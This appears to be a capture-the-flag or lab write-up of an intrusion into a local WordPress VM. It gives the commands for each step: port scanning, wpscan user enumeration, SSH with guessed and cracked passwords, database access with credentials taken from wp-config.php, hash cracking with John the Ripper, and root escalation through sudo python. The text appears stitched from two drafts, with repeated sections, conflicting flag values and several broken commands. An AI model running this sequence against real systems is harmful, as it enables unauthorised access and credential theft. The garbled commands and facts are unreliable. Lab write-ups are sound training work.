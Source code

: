 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110
```
![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/1-nmap.png)

This scan identifies the services below as potential points of entry:

**Target 1**
```
- Port 22/TCP   Open SSH
- Port 80/TCP   Open HTTP
- Port 111/TCP 	Open rcpbind
- Port 139/TCP 	Open netbios-ssn
- Port 445/TCP 	Open netbios-ssn
```

The following vulnerabilities were identified on each target:
**Target 1**
```
- Weak User Password
- WordPress - user enumeration and unsalted user password hash
- Escalation of privilege
```

---

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33e11b80be759c4e844862482d**
- Exploit Used:
    - WPScan to identify users of the Target 1 machine
    - Command: `$ wpscan --url http://192.168.1.110/wordpress`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wp1.png)

    - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wpu.png)

- Accessing user Michael
    - due to a weak password we were able to guess Michael's password
    - `ssh michael@192.168.1.110`
    - Password: `michael`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/SSH.png)

- Accessing var/www/html as root and using `grep` to capture flag1.
    - Commands:
        - `cd ../`
        - `cd var/www`
        - `cd html/`
        - `ls`
        - `grep -IR flag1 *`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1.
        - Commands:
            - `cd ../`
            - `ls`
            - `cat flag2.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag2.png)

- **Flag3: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1 and flag2.
    - Once `wp-config.php` was found, we gained access to the database (as Michael) MySQL was used to locate flag3.
        - Commands:
            - `mysql -u root -pR@v3nSecurity`
            - `connect wordpress`
            - `show tables`
            - `seletct * from wp_posts;`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/sp_post.png)

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Recieve 'hash' password for both Michael and Steven byb using the same MySQL exploit from flag3.
        - Commands:
            - `mysql -u root -pR@v3nSecurity`
            - `connect wordpress`
            - `show tables`
            - `seletct * from wp_users;`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/tables.png)

   - Created a .txt file of 'hash' passwords
    - `nano wp_hash.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wphash.png)    

- Used John the Ripper to unhash Steven's password
    - `john wp_hash.txt`
    - `john --show wp_hash.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/password.png)

- Accessing user Steven
    - `ssh steven@192.168.1.110`
    - Password: `pink84`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/sshsteven.png)

- Use Python to gain root privileges
    - `ls`
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
    - `cd ~`
    - `ls`
    - `cat flag4.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/Python.png)









![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![Flag 3 location](/Images/flag3-location.png "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/wpusers-table.png "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/john-results.png "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![Flag 4 location](/Images/flag4-location.png "Flag 4 location")
